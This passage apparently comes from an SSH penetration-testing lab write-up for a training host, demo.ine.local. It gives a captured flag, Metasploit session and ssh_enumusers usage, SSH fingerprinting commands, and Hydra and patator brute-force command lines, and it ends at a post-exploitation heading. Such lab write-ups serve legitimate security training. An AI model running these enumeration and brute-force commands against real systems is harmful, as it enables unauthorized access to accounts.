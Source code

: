 
Flag: `eb09cc6f1cd72756da145892892fbf5a`

(You listed `sessions`, `sessions -i 1`, `find / -name "flag"`, and `cat /flag` — that sequence is preserved.)

### Alternative enumeration: `ssh_enumusers` (when `ssh_login` fails)

If `ssh_login` does not yield creds, `ssh_enumusers` can attempt to enumerate usernames (where possible). Use `show options` to set RHOSTS and other options.

```text
msf6 > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiliary(ssh_enumusers) > set RHOSTS demo.ine.local
msf6 auxiliary(ssh_enumusers) > run
```

Limitations: not all SSH servers leak user lists; success depends on server/version/config.

---

## Expanded context and native tooling (extra, helpful commands)

I kept your exact lab commands above. Here are additional commands and tools you may want that fit the same workflows.

### Native recon & fingerprinting

```bash
# Identify host keys quickly
ssh-keyscan demo.ine.local

# Get host key fingerprint
ssh-keyscan -t rsa,ecdsa,ed25519 demo.ine.local | ssh-keygen -lf -

# Audit SSH server algorithms (ssh-audit tool)
ssh-audit demo.ine.local
```

### Alternative credential tools

```bash
# Hydra (fast brute force; be careful)
hydra -L users.txt -P passwords.txt -t 4 ssh://demo.ine.local

# patator (flexible, scriptable)
patator ssh_login host=demo.ine.local user=FILE0 password=FILE1 0=users.txt 1=passwords.txt
```

---

## Post-auth detailed actions (what to do after you get a shell)
